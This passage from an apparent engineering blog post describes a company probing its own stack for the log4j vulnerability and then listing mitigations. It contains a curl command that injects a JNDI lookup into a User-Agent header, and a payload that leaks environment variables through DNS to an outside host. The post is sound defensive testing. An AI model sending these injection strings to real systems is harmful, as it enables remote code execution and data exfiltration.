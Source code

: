 If a DNS resolution is performed on the unique DNS hostname, we would get a callback or an email. After generating the token, we quickly proceed to probe our infrastructure:

```
curl https://docs.wgtwo.com  -A "\${jndi:ldap://randomlygeneratedhostname.canarytokens.com/a}"
```

After executing the command, we shortly received the notification from CanaryTokens. It means one of our elements of the infrastructure stack is relying on log4j. Nevertheless, we need to assess if the vulnerability is exploitable, so we check the Infosec literature.

JNDI stands for Java Naming and Directory Interface - it is a system designed to look up for data and resources, i.e. such as Java bytecode. It might sound wrong to the 2021 engineers but back in 2000 Java RMI, CORBA etc were very trendy concepts for discovering and executing code in a dynamic fashion - think like Javascript or ActiveX applets in the browser world. 

Going back to our problem, we quickly found this [Rogue JNDI](https://github.com/veracode-research/rogue-jndi). This is basically an exploit generator that creates a fake LDAP server, replying with Java class objects that will be executed by log4j on object retrieval.  After building a quick docker image, we ran this exploit on an external host and execute several calls to check all the proposed types of payload:

![](/img/blog/log4j/02-supported-payloads.png)

In particular, RemoteReference did not yield to any execution, which means probably the JVM used to run the affected Java component is either too recent or not configured to execute code via known remote methods. This gives us some time, but we are still exposed to information leakage as an attacker can still exfiltrate env variables via DNS queries - i.e. log4j would resolve environment variables and would embed them in a query, such as: 

```
${jndi:ldap://${env:JAVA_VERSION}.dnsresolver.foo}
```

Then, we should proceed to:
1) Identify if the affected components are in our stack or in the cloud provider
2) Apply mitigation  
- Either via WAF - firewall rules on traffic.   
- Either via known mitigation on the log4g components
  - Environment variable / JVM options
  - Java class removal
  - Full component upgrade

